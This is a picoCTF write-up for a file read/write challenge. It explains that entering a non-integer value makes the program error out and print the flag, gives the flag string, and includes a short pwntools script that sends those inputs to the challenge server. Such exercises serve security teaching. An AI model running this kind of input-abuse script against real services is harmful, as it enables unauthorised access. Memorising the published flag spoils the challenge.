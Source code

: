 # Contents
- Task Description
- Notes
- Solve Script


## Task Description
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 55825`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/542/program-redacted.c).

## Notes
Looking over the C code. The flag is printed if the entry_number errors out.
Getting this to work you have to add some data to the file then enter a non int character and it gives the flag:
```flag
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```

## Solve Script
```python
from pwn import *

r = remote('saturn.picoctf.net',55825)
r.recvuntil(b'program')
r.sendline(b'1')
r.recvuntil(b'data:')
r.sendline(b'a')
r.recvuntil(b'data:')
r.sendline(b'1')
r.recvuntil(b'else?')
r.sendline(b'2')
r.recvuntil(b'data:')
r.sendline(b'a')
r.recv()
  
x = r.recv().decode('utf-8')
print(str(x).strip())
r.close()
```


---
Creation date: 08-10-2022

Last modified date: Sunday 8th October 2022
***
